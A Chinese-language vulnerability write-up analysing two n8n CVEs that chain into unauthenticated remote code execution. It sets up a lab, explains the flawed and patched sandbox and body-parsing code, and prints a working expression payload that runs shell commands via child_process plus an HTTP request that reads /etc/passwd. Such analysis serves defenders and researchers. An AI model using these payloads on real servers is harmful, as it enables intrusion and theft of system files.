









# 介绍

n8n 是一个开源的工作流自动化平台

最近有两个cve一个是**CVE-2025-68613**，另一个是**CVE-2026-21858**，他们组合起来就可以形成一个利用链导致rce

**CVE-2025-68613：**在特定条件下，已认证用户在工作流配置期间提供的表达式可能会在与底层运行时隔离不足的执行环境中被执行。

**CVE-2026-21858**：攻击者可以通过执行某些基于表单的工作流来访问底层服务器上的文件。存在漏洞的工作流可能会将访问权限授予未经身份验证的远程攻击者，导致存储在系统中的敏感信息泄露。

这两个漏洞都是针对于某些特定的工作流的

# 漏洞影响版本

**CVE-2025-68613**：


1. <1.120.4
2. ≥1.121.x，<1.121.1
3. <v1.122.0 

**CVE-2026-21858**：


1. ≥1.65.0，<1.121.0

   

# 环境搭建

n8n使用docker搭建使用下面两行命令即可，这里选择一个存在漏洞的版本

```shell
docker volume create n8n_data
docker run -it --rm --name n8n -p 5678:5678 -v n8n_data:/home/node/.n8n docker.n8n.io/n8nio/n8n:1.120.3
```

# 漏洞分析

## **CVE-2025-68613**

### 漏洞原理

我擦，一开始看半天我以为这个表达式求值逃逸就是在那种代码执行的节点，在执行js代码的时候进行沙箱逃逸，把表达式和代码执行当作是一类东西了，结果我一开始尝试了半天code节点，发现只能获取到process对象，但是获取mainModule的时候里面是空的

分析一下github提交的commit看看漏洞的位置：[https://github.com/n8n-io/n8n/commit/08f332015153decdda3c37ad4fcb9f7ba13a7c79](https://github.com/n8n-io/n8n/commit/08f332015153decdda3c37ad4fcb9f7ba13a7c79)

里面就是修改了表达式执行时的沙箱代码，实际上代码执行的沙箱和表达式的沙箱是独立的，表达式应该是下图中的节点



payload为

```js
{{ (function(){ return this.process.mainModule.require('child_process').execSync('id').toString() })() }}
```

这就是官方描述中所提到的，在一些节点进行设置的时候的表达式求值，在设置的时候我们用{{...}}来调用n8n的表达式解析引擎

我们可以看一下修复前expression-evaluator-proxy.ts执行表达式的源码

```js
import { Tournament } from '@n8n/tournament';

import { DollarSignValidator, PrototypeSanitizer } from './expression-sandboxing';

type Evaluator = (expr: string, data: unknown) => string | null | (() => unknown);
type ErrorHandler = (error: Error) => void;

const errorHandler: ErrorHandler = () => {};
const tournamentEvaluator = new Tournament(errorHandler, undefined, undefined, {
	before: [],
	after: [PrototypeSanitizer, DollarSignValidator],
});
const evaluator: Evaluator = tournamentEvaluator.execute.bind(tournamentEvaluator);

export const setErrorHandler = (handler: ErrorHandler) => {
	tournamentEvaluator.errorHandler = handler;
};

export const evaluateExpression: Evaluator = (expr, data) => {
	return evaluator(expr, data);
};
```

这里引入了DollarSignValidator和PrototypeSanitizerDollarSignValidator两个hook函数用来进行检查，源码在expression-sandboxing.ts文件中

源码比较多，就不贴出来了可以自己去看，大概说一下，就是该表达式的执行是在全局空间下执行的，根据payload直接使用this就获取到process也可以知道，为了保证安全，n8n采用ast解析然后去扫描是否有恶意行为的方式来进行检查，代码中配置的before和after参数就是配置的检查节点

但是这两个hook函数存在检查不足的问题

- DollarSignValidator限制了$符号的单独使用和作为对象开头{{ $.something }}
- PrototypeSanitizer会对属性名进行检查，如果属性名是['*__proto__*', 'prototype', 'constructor', 'getPrototypeOf']，就会被拦截，防止原型链污染

但是这里漏了两个地方没有检查：


1. 没有管this的上下文引用
2. 没有管function函数创建

那我们上述的payload就可以生效了，这里涉及到js函数中this的一个指向特性，可以参考文档：[https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Operators/this](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Operators/this)

在非严格模式下，this的指向是调用该函数的对象，如果函数是直接调用的（即：`func()` 而不是 `obj.func()`），那么函数内部的 `this` 会**自动指向全局对象**，我们就可以从中拿到process最后执行任意命令。

### 漏洞修复

这里代码的修复就是增加了一个FunctionThisSanitizer在before处

```js

import { Tournament } from '@n8n/tournament';

import {
	DollarSignValidator,
	FunctionThisSanitizer,
	PrototypeSanitizer,
} from './expression-sandboxing';

type Evaluator = (expr: string, data: unknown) => string | null | (() => unknown);
type ErrorHandler = (error: Error) => void;

const errorHandler: ErrorHandler = () => {};
const tournamentEvaluator = new Tournament(errorHandler, undefined, undefined, {
	before: [FunctionThisSanitizer],
	after: [PrototypeSanitizer, DollarSignValidator],
});
const evaluator: Evaluator = tournamentEvaluator.execute.bind(tournamentEvaluator);
```

大概的流程就是，先设置一个受限制的EMPTY_CONTEXT上下文，他针对payload中的自执行函数和普通的函数定义进行hook

自执行函数就会被改写成.call的形式，js会将this指向.call的第一个参数

比如上面的payload就会被改写成类似这样

```js
{{ (function(){ return this.process.mainModule.require('child_process').execSync('id').toString() }).call({ process: {} }) }}
```

此时返回的就是空



如果是普通的函数定义就被被bind上前面设置的空上下文引用，你的this就会被指向这个空上下文

> 至于这里放在before而不放在after的原因，问了ai给出的理由大概是如果都放在after可能hook的顺序不一样，有可能你先检查再进行代码更改，这样有可能导致更改后的代码绕过前面的检查

## CVE-2026-21858

### 漏洞环境

环境可以复制下面的json直接在画布中粘贴

```json
{
  "name": "My workflow 2",
  "nodes": [
    {
      "parameters": {
        "path": "d834a088-6279-4789-bd82-292b94a1562d",
        "formTitle": "vulnTest",
        "formFields": {
          "values": [
            {
              "fieldLabel": "test",
              "fieldType": "file"
            }
          ]
        },
        "responseMode": "responseNode",
        "options": {}
      },
      "id": "a3646489-0e65-4f7e-bacf-327e6c337304",
      "name": "n8n Form Trigger",
      "type": "n8n-nodes-base.formTrigger",
      "typeVersion": 2,
      "position": [
        -160,
        -48
      ],
      "webhookId": "d834a088-6279-4789-bd82-292b94a1562d"
    },
    {
      "parameters": {
        "respondWith": "binary",
        "options": {}
      },
      "id": "1e34c1e2-3135-416f-ae95-19aa6222aa6a",
      "name": "Respond to Webhook1",
      "type": "n8n-nodes-base.respondToWebhook",
      "typeVersion": 1.1,
      "position": [
        112,
        -48
      ]
    }
  ],
  "pinData": {},
  "connections": {
    "n8n Form Trigger": {
      "main": [
        [
          {
            "node": "Respond to Webhook1",
            "type": "main",
            "index": 0
          }
        ]
      ]
    }
  },
  "active": false,
  "settings": {
    "executionOrder": "v1"
  },
  "versionId": "9beae5e1-100b-4b38-b8b8-c753bf427f86",
  "meta": {
    "templateCredsSetupCompleted": true,
    "instanceId": "99202a00024d0a127e61ee6f7e2030bfbf1ad4eb1234076a1ae9bdf1aff4d525"
  },
  "id": "Di5aAXJxwiwQLIP9",
  "tags": []
}
```

我安装的这个版本找不到手动创建的选项很奇怪，直接粘贴json倒是可以的，还是有点用不太明白这n8n



然后直接激活工作流就可以使用了

### 漏洞原理

前面的漏洞还是需要身份验证才行，毕竟需要节点的创建，但是配合上该cve就可以形成一个未授权rce的操作了

不过还是有一定的限制条件：


1. 需要有一个能够访问的基于表单的文件上传工作流，并且是激活的
2. 该工作流要能够被对外访问而且未授权
3. 需要有能回显二进制数据的节点

**WebHook**

文章中提到了webhook，其实我们在激活一个FormTrigger工作流的时候，内部nodejs会注册一个web服务，该服务接受到你上传的数据后，会立刻激活n8n的工作流引擎，会针对这次请求创建一个执行实例，这也是一个webhook的工作流程。

所以，在 n8n 里，`Form Trigger` 其实就是一个**带界面的**webhook**。**

**漏洞成因**

漏洞的问题就出现在其解析body的函数上面，可以找到他解析表单的源码

```js
/**
 * Parses the request body (form, xml, json, form-urlencoded, etc.) if needed
 * into the `req.body` property.
 */
async function parseRequestBody(
	req: WebhookRequest,
	workflowStartNode: INode,
	workflow: Workflow,
	executionMode: WorkflowExecuteMode,
	additionalKeys: IWorkflowDataProxyAdditionalKeys,
) {
	let binaryData: string | number | boolean | unknown[] | undefined;

	const nodeVersion = workflowStartNode.typeVersion;
	if (nodeVersion === 1) {
		// binaryData option is removed in versions higher than 1
		binaryData = workflow.expression.getSimpleParameterValue(
			workflowStartNode,
			'={{$parameter["options"]["binaryData"]}}',
			executionMode,
			additionalKeys,
			undefined,
			false,
		);
	}

	// if `Webhook` or `Wait` node, and binaryData is enabled, skip pre-parse the request-body
	// always falsy for versions higher than 1
	if (binaryData) {
		return;
	}

	const { contentType } = req;
	if (contentType === 'multipart/form-data') {
		req.body = await parseFormData(req);
	} else {
		if (nodeVersion > 1) {
			if (
				contentType?.startsWith('application/json') ||
				contentType?.startsWith('text/plain') ||
				contentType?.startsWith('application/x-www-form-urlencoded') ||
				contentType?.endsWith('/xml') ||
				contentType?.endsWith('+xml')
			) {
				await parseBody(req);
			}
		} else {
			await parseBody(req);
		}
	}
}
```

这里根据content-type的类型来使用不同的处理函数，'multipart/form-data'类型就会选择**parseFormData**函数，其他类型的就选择**parseBody**函数

parseBody函数如下：

```js
export const parseBody = async (req: Request) => {
	await req.readRawBody();
	const { rawBody, contentType, encoding } = req;
	if (rawBody?.length) {
		try {
			if (contentType === 'application/json') {
				// eslint-disable-next-line @typescript-eslint/no-unsafe-assignment
				req.body = jsonParse(rawBody.toString(encoding));
			} else if (contentType?.endsWith('/xml') || contentType?.endsWith('+xml')) {
				// eslint-disable-next-line @typescript-eslint/no-unsafe-assignment
				req.body = await xmlParser.parseStringPromise(rawBody.toString(encoding));
			} else if (contentType === 'application/x-www-form-urlencoded') {
				req.body = parseQueryString(rawBody.toString(encoding), undefined, undefined, {
					maxKeys: 1000,
				});
			} else if (contentType === 'text/plain') {
				req.body = rawBody.toString(encoding);
			}
		} catch (error) {
			throw new UnprocessableRequestError('Failed to parse request body', (error as Error).message);
		}
	}
};
```

可以看到，其将解析后的内容存放到req.body变量下面

再来看parseFormData函数，他是一个经过二次封装的函数



真正的逻辑得去看它是如何create的

```js
export const createMultiFormDataParser = (maxFormDataSizeInMb: number) => {
	return async function parseMultipartFormData(req: IncomingMessage): Promise<{
		data: formidable.Fields;
		files: formidable.Files;
	}> {
		const { encoding } = req;

		const form = formidable({
			multiples: true,
			encoding: encoding as formidable.BufferEncoding,
			maxFileSize: maxFormDataSizeInMb * 1024 * 1024,
			// TODO: pass a custom `fileWriteStreamHandler` to create binary data files directly
		});

		return await new Promise((resolve) => {
			form.parse(req, async (_err, data, files) => {
				normalizeFormData(data);
				normalizeFormData(files);
				resolve({ data, files });
			});
		});
	};
};
```

他是对formidable这个解析库做了二次封装，真正处理的在form.parse这个函数里面，该解析器填充的是req.body.files这个变量

文章中有一个完整的解析流程图



所以在我们的文件上传之后，后面的节点或者函数要去继续处理文件，都是从req.body.files变量里面去拿

但是如果我们有办法控制files变量的话，是不是可能就有可能产生危险行为了呢，于是我们就可以利用parseBody这个函数去覆盖files变量，比如文章中一个解析json格式数据的例子



这里就有点像原型链污染一样了

后续我们上传文件触发了这个表单工作流，还会有对该表单数据进行进一步处理的formWebhook函数，里面会调用prepareFormReturnItem这个函数来处理



这里会对每一个文件调用copyBinaryFile函数，此时file的所有参数我们都是可以通过前面的方法控制的，而且这里调用没有对文件进行校验，具体处理如下

```js
async copyBinaryFile(
		workflowId: string,
		executionId: string,
		binaryData: IBinaryData,
		filePath: string,
	) {
		const manager = this.managers[this.mode];

		if (!manager) {
			const { size } = await stat(filePath);
			binaryData.fileSize = prettyBytes(size);
			binaryData.data = await readFile(filePath, { encoding: BINARY_ENCODING });

			return binaryData;
		}

		const metadata = {
			fileName: binaryData.fileName,
			mimeType: binaryData.mimeType,
		};

		const { fileId, fileSize } = await manager.copyByFilePath(
			workflowId,
			executionId,
			filePath,
			metadata,
		);

		binaryData.id = this.createBinaryDataId(fileId);
		binaryData.fileSize = prettyBytes(fileSize);
		binaryData.data = this.mode; // clear binary data from memory

		return binaryData;
	}
```

这里就会读取filePath的文件内容到binaryData变量当中，所以我们前面的漏洞节点中会配置返回二进制数据，因为他会直接从二进制数据中去拿

> 正常来说filePath是由**parseFormData**函数设置好的，就是我们上传文件存储的文件路径

配合前面的漏洞环境，我们的请求如下：

```http
POST /form/d834a088-6279-4789-bd82-292b94a1562d HTTP/1.1
Host: localhost:5678
sec-ch-ua-platform: "macOS"
Accept-Encoding: gzip, deflate, br, zstd
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/144.0.0.0 Safari/537.36
Content-Type: application/json
Referer: http://localhost:5678/form/d834a088-6279-4789-bd82-292b94a1562d
Accept: */*
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Sec-Fetch-Dest: empty
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua: "Not(A:Brand";v="8", "Chromium";v="144", "Google Chrome";v="144"
sec-ch-ua-mobile: ?0
Origin: http://localhost:5678
Content-Length: 194287

{
  "files": {
    "field-0": {
      "filepath": "/etc/passwd",
      "originalFilename": "product-spec.pdf",
      "mimeType": "text/plain",
      "extenstion": ""
    }
  },
  "data": [
    "not really important"
  ],
  "executionId": "not really important"
}
```



可以看到成功进行了利用，这里的文件属性名没有要求，随便写都可以

文章中的数据回显利用的是知识库的例子，在知识库工作流中将系统文件读取加入知识库，然后通过聊天的方式来回显数据

后续升级到rce的利用，就是进行管理员的jwt伪造了，因为可以任意文件读，只要知道jwt的计算方式，我们就可以计算出jwt了，这个就看文章就可以了，这里就不再复现了

# 参考

[https://github.com/Chocapikk/CVE-2026-21858](https://github.com/Chocapikk/CVE-2026-21858)

[https://www.cyera.com/research-labs/ni8mare-unauthenticated-remote-code-execution-in-n8n-cve-2026-21858](https://www.cyera.com/research-labs/ni8mare-unauthenticated-remote-code-execution-in-n8n-cve-2026-21858)

[https://github.com/n8n-io/n8n?tab=readme-ov-file](https://github.com/n8n-io/n8n?tab=readme-ov-file)

[https://github.com/Threekiii/Awesome-POC/blob/master/Web%E5%BA%94%E7%94%A8%E6%BC%8F%E6%B4%9E/n8n%20%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E5%AF%BC%E8%87%B4%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20CVE-2025-68613.md#n8n-%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E5%AF%BC%E8%87%B4%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E-cve-2025-68613](https://github.com/Threekiii/Awesome-POC/blob/master/Web%E5%BA%94%E7%94%A8%E6%BC%8F%E6%B4%9E/n8n%20%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E5%AF%BC%E8%87%B4%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20CVE-2025-68613.md#n8n-%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E5%AF%BC%E8%87%B4%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E-cve-2025-68613)